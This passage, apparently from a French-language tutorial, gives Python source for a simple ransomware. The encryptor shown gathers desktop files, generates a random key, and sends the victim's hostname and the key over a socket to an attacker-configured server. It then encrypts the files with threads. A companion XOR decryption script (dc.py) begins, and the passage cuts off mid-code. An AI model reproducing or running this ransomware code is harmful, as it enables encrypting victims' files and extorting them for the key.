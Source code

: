 ```python
        abs_files.append(f'{desktop_path}\\{f}')
print("Successfully located all files!")

# Obtenir le nom d'hôte du client
hostname = os.getenv('COMPUTERNAME')

# Générer la clé de chiffrement
print("Generating encryption key...")
key = ''
for i in range(ENCRYPTION_LEVEL):
    key += key_char_pool[random.randint(0, key_char_pool_len - 1)]
print("Key Generated!!!")

# Se connecter au serveur pour transférer la clé et le nom d'hôte
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((IP_ADDRESS, PORT))
    print('Successfully connected... transmitting hostname and key')
    s.send(f'{hostname} : {key}'.encode('utf-8'))
    print('Finished transmitting data!')
    s.close()

# Créer la file d'attente des fichiers à crypter
q = queue.Queue()
for f in abs_files:
    q.put(f)

# Configurer les threads pour le chiffrement
for i in range(10):
    t = threading.Thread(target=encrypt, args=(key,), daemon=True)
    t.start()

q.join()
print('Encryption and upload complete!!!')
input()
```

#### 5. Création du script de déchiffrement (dc.py)

Ce script déchiffre les fichiers cryptés en utilisant une clé fournie par l'utilisateur.

```python
import os
import threading
import queue

# Fonction de décryptage
def decrypt(key):
    while True:
        file = q.get()
        print(f'Decrypting {file}')
        try:
            key_index = 0
            max_key_index = len(key) - 1
            decrypted_data = ''
            
            with open(file, 'rb') as f:
                data = f.read()
            
            with open(file, 'w') as f:
                f.write('')
            
            for byte in data:
                xor_byte = byte ^ ord(key[key_index])
                with open(file, 'ab') as f:
```